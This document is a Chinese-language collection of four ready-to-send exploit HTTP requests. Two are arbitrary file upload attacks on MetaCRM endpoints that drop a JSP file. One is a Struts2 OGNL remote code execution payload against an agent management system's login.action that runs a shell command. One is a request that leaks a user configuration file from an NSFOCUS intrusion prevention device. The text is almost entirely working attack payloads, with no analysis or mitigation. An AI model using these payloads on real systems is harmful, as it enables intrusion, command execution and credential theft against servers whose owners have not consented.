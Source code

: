 1. MetaCRM 客户关系管理系统 sendfile.jsp 任意文件上传漏洞

POST /business/common/importdata/sendfile.jsp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpW22

------WebKitFormBoundary03rNBzFMIytvpW22
Content-Disposition: form-data; name="file"; filename="1.jsp"

<%out.println(new java.util.Random().nextInt(100));new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundary03rNBzFMIytvpW22--

2. MetaCRM 客户关系管理系统 sendsms.jsp 任意文件上传漏洞

POST /business/common/sms/sendsms.jsp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpW22

------WebKitFormBoundary03rNBzFMIytvpW22
Content-Disposition: form-data; name="file"; filename="1.jsp"

<%out.println(new java.util.Random().nextInt(100));new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundary03rNBzFMIytvpW22--

3. AgentSyste代理商管理系统 login.action Struts2 远程代码执行漏洞

POST /login.action HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Firefox/123.0
Content-Type: application/x-www-form-urlencoded

debug=command&expression=%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22ls%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()

4. NIPS 绿盟网络入侵防护系统users.json敏感信息泄漏

GET /api/config/users.json HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
